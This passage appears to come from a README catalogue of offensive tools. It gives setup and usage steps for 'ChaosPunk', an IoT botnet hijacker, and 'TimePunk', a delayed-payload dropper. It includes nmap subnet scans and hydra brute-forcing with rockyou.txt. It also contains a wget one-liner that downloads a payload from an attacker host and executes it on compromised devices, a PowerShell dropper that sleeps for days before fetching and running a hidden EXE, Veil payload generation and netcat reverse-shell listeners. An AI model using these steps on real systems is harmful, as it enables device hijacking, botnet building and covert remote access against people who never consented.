 ### Tools
- **Kali**: `veil`, `nmap`, `hydra`, `metasploit-framework`.
- **Target**: `opencv-python`.

### Usage
- **Setup**: `sudo apt install veil nmap hydra`, target: `pip install opencv-python`.
- **Run**: `sudo python3 lightpunk.py`—enter `LHOST`, target IP, move EXE to `/tmp/light.exe`.
- **Deploy**: Web server, listener (`nc -lvp 4444`), run listener on target.
- **Output**: Shell session, logs in `lightpunk.log`.

---

## 11. ChaosPunk: IoT Botnet Hijacker

### Purpose
Hijacks IoT devices across a subnet—pivots to PCs.

### Technical Process
1. **Scan**: `nmap -p 23,80,8080 --open <subnet>`—60s timeout, regex for IPs.
2. **Brute**: `hydra -l admin -P rockyou.txt <protocol>://<ip>`—30s per IP.
3. **Infect**: 
   - **Command**: Telnet script—`wget http://<LHOST>/chaos.exe -O /tmp/chaos.exe && chmod +x /tmp/chaos.exe && /tmp/chaos.exe &`.
   - **Details**: `nc` pipes commands—assumes shell access.
4. **Generate Payload**: `veil`—`/tmp/chaospunk_veil.exe`.

### Tools
- **Kali**: `nmap`, `hydra`, `veil`, `netcat`.

### Usage
- **Setup**: `sudo apt install nmap hydra veil netcat-traditional`.
- **Run**: `sudo python3 chaospunk.py`—enter subnet, `LHOST`, move EXE to `/tmp/chaos.exe`.
- **Deploy**: Web server, listener (`nc -lvp 4444`).
- **Output**: Shell sessions, logs in `chaospunk.log`.

---

## 12. TimePunk: Temporal Exploit Trigger

### Purpose
Deploys a delayed payload—triggers remote access after days.

### Technical Process
1. **Generate Payload**: `veil`—`/tmp/timepunk_veil.exe`.
2. **Generate Dropper**: 
   - **File**: `timepunk.ps1`—`Start-Sleep -Seconds <days*86400>; IWR -Uri "http://<LHOST>/time.exe" -OutFile "$env:TEMP\\tp.exe"; Start-Process "$env:TEMP\\tp.exe" -WindowStyle Hidden`.
   - **Details**: Sleeps (e.g., 604800s = 7 days), downloads to `%TEMP%`, runs hidden.
